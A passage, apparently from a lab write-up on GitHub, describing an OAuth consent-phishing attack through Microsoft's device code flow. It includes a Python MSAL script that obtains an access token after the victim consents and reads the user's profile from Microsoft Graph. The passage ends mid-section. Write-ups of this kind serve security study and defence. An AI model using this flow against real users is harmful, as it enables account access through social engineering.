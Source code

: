 #### 4) Access Token Retrieval: Used MSAL in Python to perform device code login.

This Python script represents post-consent activity performed by an attacker. The victim only sees the Microsoft OAuth consent prompt in their browser. No scripts or malware are needed for this attack — just social engineering and permission abuse.


```Python
import msal, requests

client_id = "348ed938-8c24-4cb4-8dff-1b5ed4e31778"
authority = "https://login.microsoftonline.com/common"
scopes = ["User.Read", "offline_access"]

app = msal.PublicClientApplication(client_id, authority=authority)
flow = app.initiate_device_flow(scopes=scopes)

if "user_code" not in flow:
    raise ValueError("Failed to start device code flow")

print("\nTo authenticate:")
print(flow["message"])

result = app.acquire_token_by_device_flow(flow)

if "access_token" in result:
    print("\n✅ Authenticated successfully.")
    token = result["access_token"]
    r = requests.get(
        "https://graph.microsoft.com/v1.0/me",
        headers={"Authorization": f"Bearer {token}"}
    )
    user = r.json()
    print("\n👤 User Info:")
    print(f"Display Name: {user.get('displayName')}")
    print(f"UPN: {user.get('userPrincipalName')}")
    print(f"ID: {user.get('id')}")
else:
    print("\n❌ Failed to authenticate:")
    print(result.get("error_description"))
```
---

After the above script is ran the output will be what is shown below. Allowing me access to the end user: 

<img width="800" height="800" alt="image" src="https://github.com/user-attachments/assets/c1891655-fe94-4308-84ac-acc694ff405d" /> 

---
After Python script is executed the following prompts will appear 

Prompt requesting to sign into app:
